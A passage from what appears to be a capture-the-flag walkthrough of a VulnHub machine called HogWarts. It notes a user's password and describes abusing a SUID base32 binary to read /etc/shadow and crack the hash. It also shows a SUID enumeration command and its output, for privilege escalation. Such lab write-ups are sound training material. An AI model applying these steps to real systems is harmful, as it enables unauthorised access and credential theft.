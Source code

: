 ```shell
dobby@HogWarts:/$
```

It is important to note that dobby's password is not "::ilikesocks" but "ilikesocks". If you also managed to get the reverse shell but for some reason you don't know the dobby password there is another method. If we search for SUID binaries we have base32 that basically let's us read every file on the system. So just read the dobby entrance on the /etc/shadow file and crack the hash. I honestly thought that this was the way to root and got the flag this way but the vulnhub page clearly said "dobby needs to be root to help harry potter, dobby needs to be a free elf".

## Root flag

So after trying some more things out I though that maybe I was a victim of "tunnel vision" and missed something on other step. I looked at the SUID binaries and found the solution

```shell
dobby@HogWarts:/$ find / -perm -4000 2>/dev/null
/snap/core20/1611/usr/bin/chfn
/snap/core20/1611/usr/bin/chsh
/snap/core20/1611/usr/bin/gpasswd
/snap/core20/1611/usr/bin/mount
/snap/core20/1611/usr/bin/newgrp
/snap/core20/1611/usr/bin/passwd
/snap/core20/1611/usr/bin/su
/snap/core20/1611/usr/bin/sudo
/snap/core20/1611/usr/bin/umount
/snap/core20/1611/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1611/usr/lib/openssh/ssh-keysign
/snap/snapd/16292/usr/lib/snapd/snap-confine
/snap/core18/1932/bin/mount
/snap/core18/1932/bin/ping
/snap/core18/1932/bin/su
/snap/core18/1932/bin/umount
/snap/core18/1932/usr/bin/chfn
/snap/core18/1932/usr/bin/chsh
/snap/core18/1932/usr/bin/gpasswd
/snap/core18/1932/usr/bin/newgrp
/snap/core18/1932/usr/bin/passwd
/snap/core18/1932/usr/bin/sudo
/snap/core18/1932/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1932/usr/lib/openssh/ssh-keysign
/snap/core18/2538/bin/mount
/snap/core18/2538/bin/ping
/snap/core18/2538/bin/su
/snap/core18/2538/bin/umount
/snap/core18/2538/usr/bin/chfn
/snap/core18/2538/usr/bin/chsh
/snap/core18/2538/usr/bin/gpasswd
/snap/core18/2538/usr/bin/newgrp
/snap/core18/2538/usr/bin/passwd
/snap/core18/2538/usr/bin/sudo
/snap/core18/2538/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2538/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
/usr/libexec/sssd/ldap_child
/usr/libexec/sssd/p11_child
/usr/libexec/sssd/krb5_child
/usr/libexec/sssd/proxy_child
/usr/libexec/sssd/selinux_child
/usr/sbin/pppd
/usr/bin/vmware-user-suid-wrapper
/usr/bin/su
/usr/bin/passwd
/usr/bin/sudo
```